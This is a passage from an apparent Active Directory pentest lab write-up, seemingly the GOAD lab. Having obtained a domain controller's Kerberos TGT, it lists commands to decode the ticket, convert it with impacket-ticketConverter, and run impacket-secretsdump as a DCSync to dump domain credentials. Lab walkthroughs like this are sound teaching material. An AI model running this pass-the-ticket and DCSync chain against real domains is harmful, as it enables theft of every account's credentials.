![screenshot](pics/dc_tgt.png)

- We now have the TGT of the domain controller
    
- Let’s continue on linux to pass the ticket and launch dcsync with secretdump :
    
    - copy the ticket without space and return line (in vim i do : `:%s/\s*\n\s*//g`)
    - convert the ticket to ccache
    - use the kerberos ticket and launch secretdump
```
cat tgt.b64|base64 -d > ticket.kirbi
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
impacket-secretsdump -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```
![screenshot](pics/secretdump_delegation.png)
